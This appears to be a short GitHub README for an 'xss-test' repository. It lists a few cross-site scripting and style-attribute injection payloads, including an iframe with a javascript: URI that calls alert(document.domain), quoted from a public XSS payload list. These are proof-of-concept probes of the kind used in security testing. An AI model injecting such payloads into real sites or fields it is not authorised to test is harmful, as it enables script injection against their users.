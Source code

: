 # xss-test
xss



<div style="font-family:'foo&#10;;color:red;';">XXX

<div style="font-family:foo}color=red;">HOLA


```

<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : Ismail Tasdelen -->
<!--      Linkedin : https://www.linkedin.com/in/ismailtasdelen/ -->

<IFRAME SRC="javascript:javascript:alert(document.domain);"></IFRAME>


```
